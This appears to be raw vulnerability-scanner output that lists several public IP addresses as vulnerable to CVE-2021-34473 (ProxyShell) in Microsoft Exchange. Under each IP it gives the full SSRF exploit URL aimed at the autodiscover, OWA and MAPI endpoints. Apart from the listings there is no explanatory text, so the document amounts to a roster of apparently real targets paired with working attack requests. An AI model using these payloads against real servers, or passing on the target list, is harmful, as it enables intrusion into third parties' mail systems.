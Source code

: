 [CVE-2021-34473] [http] [critical] https://213.170.106.194/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 213.159.206.203  
  
---  
[CVE-2021-34473] [http] [critical] https://213.159.206.203/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://213.159.206.203/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 217.107.70.89  
  
---  
[CVE-2021-34473] [http] [critical] https://217.107.70.89/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://217.107.70.89/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 217.107.71.62  
  
---  
[CVE-2021-34473] [http] [critical] https://217.107.71.62/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://217.107.71.62/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 217.107.71.58  
  
---  
[CVE-2021-34473] [http] [critical] https://217.107.71.58/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://217.107.71.58/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 213.33.210.14  
  
---  
[CVE-2021-34473] [http] [critical] https://213.33.210.14/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://213.33.210.14:80/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 217.15.133.196  
  
---  
[CVE-2021-34473] [http] [critical] https://217.15.133.196/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
